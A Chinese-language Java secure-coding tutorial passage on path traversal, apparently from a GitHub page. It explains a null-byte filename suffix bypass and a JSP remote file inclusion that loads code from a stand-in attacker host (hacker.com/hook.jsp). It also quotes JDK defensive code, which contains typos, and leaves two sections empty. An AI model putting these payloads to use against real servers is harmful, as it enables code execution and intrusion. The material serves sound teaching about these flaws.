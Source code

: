 #13.路径遍历漏洞二
  
  上一篇提过，下载或上传处理不当很容易造成任意文件下载漏洞和任意路径文件上传漏洞。
  
  其实，坑不仅仅只有这个。如果以下这些坑你没意识去主动避免，那么很有可能哪一天就掉进去了。

##13.1 绕开后缀判断

```java
// 请求路径：http://example.com?name=github.jsp%00.jpg
String name = request.getParameter("name");

if (name.matches(".*\\.jpg")) {
	File file = new File(name);
	file.createNewFile();

	System.out.println("规范路径 : " + file.getCanonicalPath());
}
```

在很多操作系统中，控制字符%00被用于注入到文件名中，例如下面这个URL：
```
http://example.com?name=github.jsp%00.jpg
```
在Java应用看来，改文件名是以.jpg结尾的，而操作系统在碰到%00就被截断了，所以操作系统只能看到的是以.jsp结尾的。这个攻击用于绕开应用程序对文件后缀的检查。 

__控制字符`%00-%1f`最初是用于控制硬件设备，控制字符在URL中是无意的。__

##13.1拓展阅读

其实13.1提高奥的攻击叫__Poison Null Byte__，不仅仅是Java，其实在其他语言中一样存在。参考：http://hakipedia.com/index.php/Poison_Null_Byte

Java在较新的版本中，已经修复了这个漏洞，代码如下：

```java
public class File {
 ...
 
 public boolean createNewFile() throws IOException {
 	 SecurityManager security = System.getSecurityManager();
 	 if(security != null) security.checkWrite(path);
 	 if(iwInvalid()){
 	   throw new IOEception("Invalid file path");
 	 }
 	 return fs.createFileExclusively(path);
 }
 
 final boolean isInvalid() {
    if (status == null) {
        status = (this.path.indexOf('\u0000') < 0) ? PathStatus.CHECKED
                                                   : PathStatus.INVALID;
    }
    return status == PathStatus.INVALID;
 }
}
```

如果pathame中存在控制字符NUL，则抛出IOEception异常。

##13.2 远程文件包含

有些蛋疼的程序员会在jsp标签中包含远程文件，当然，这不是关键，关键是允许用户传参指定包含的文件，这时候**远程文件包含**漏洞就出现了。如果远程包含的文件里面包含jsp代码，那么Web容器就会执行这段代码，从而导致了漏洞的发生。例如：

```jsp
<jsp:include page="<%=remotePage%>" flush="true"/>
```
请求如下：
> http://example.com/?remotePage=http://hacker.com/hook.jsp

结果是hook.jsp文件里面的恶意代码会被&lt;jsp:include&gt;标签包含并执行。

##13.3 绝对路径遍历

##13.4 



## 参考资料
 * https://www.owasp.org/index.php/Path_Traversal
 * http://www.w3schools.com/tags/ref_urlencode.asp
 * https://www.owasp.org/index.php/File_System#Path_traversal
